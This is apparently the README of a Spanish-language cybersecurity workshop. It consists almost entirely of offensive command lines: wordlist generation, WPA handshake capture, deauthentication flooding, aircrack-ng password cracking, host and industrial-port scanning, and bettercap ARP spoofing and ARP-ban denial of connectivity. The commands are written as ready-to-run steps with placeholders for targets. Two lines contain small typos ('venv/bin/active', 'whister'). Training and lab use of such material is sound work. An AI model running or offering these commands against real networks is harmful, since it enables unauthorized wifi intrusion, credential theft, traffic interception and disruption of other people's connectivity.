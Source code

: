 # udg-taller-ciberseguridad

## Creando diccionarios
### CEWL
```bash
cewl --min_word_length 4 --write ./passwords.txt --email -v <target>
```
### Wister
```bash
python3 -m venv venv
source venv/bin/active
pip install whister

wister -l #list types

wister -c 1 2 3 4 5 -w <w1> <w2> -o ./passwords_02.txt # merge words
wister -c 3 5 -i passwords.txt -o ./passwords_02.txt # merge file and low combinations
wister -c 1 2 3 4 5 -i passwords.txt -o ./passwords_02.txt # merge file
```


## Atacando redes wifi
```bash

sudo airmon-ng start wlp2s0 # monitor
iwconfig # wifi info

sudo airodump-ng wlp2s0mon ## Scan 2Ghz
sudo airodump-ng wlp2s0mon --essid=<ssid>  ## Scan 2Ghz and filter by regex 
sudo airodump-ng wlp2s0mon --essid-regex=<ssid> --band a ### Scan 5Ghz

## Monitor and capture a handshake
sudo airodump-ng wlp2s0mon -c <channel> --bssid <bssid> -w psk.pcap --output-format pcap 

## Send generic deauth packets, may not work in all scenarios
sudo aireplay-ng -0 0 -a <bssid> wlp2s0mon # broadcast
sudo aireplay-ng -0 0 -a <bssid> -c <client-mac> wlp2s0mon # to 1 client

## Cracking
aircrack-ng -w ./creds.txt --bssid=<bssid> ./psk.pcap-0*

sudo airmon-ng check kill ## stop

```

## Encontrando dispositivos en la red
```bash
netdiscover -i wlp2s0 -r 192.168.1.0/24
netdiscover -i wlp2s0 -p
sudo arp-scan -I wlp2s0 --localnet
```

## Explorando en la red
```bash
nmap -p 502,4840,80,443,8080,8443,1880 -T5 --open 192.168.1.0/24
```

## MITM
```bash
sudo go/bin/bettercap -iface wlan0
sudo go/bin/bettercap -iface wlan0 -caplet http-ui
```

| Orden | Descripción |
|-------|---------|
| net.show | Mostrar información sobre la red |
| net.probe on | Iniciar escaneo de host en la red |
| net.recon | Leer periódicamente la tabla ARP del sistema para detectar nuevos hosts en la red. |
| set arp.spoof.targets 192.168.100.100,192.168.100.200 | Establecer un objetivo en la red | 
| set arp.spoof.internal true | Las conexiones locales entre ordenadores de la red también serán falsificadas, de lo contrario solo se falsificarán las conexiones que vayan hacia y desde la red externa. |
| arp.spoof on| Iniciar arp spoofing |
| arp.ban on | ARP spoofing en modo de prohibición, lo que significa que la conectividad del objetivo no funcionará. | 

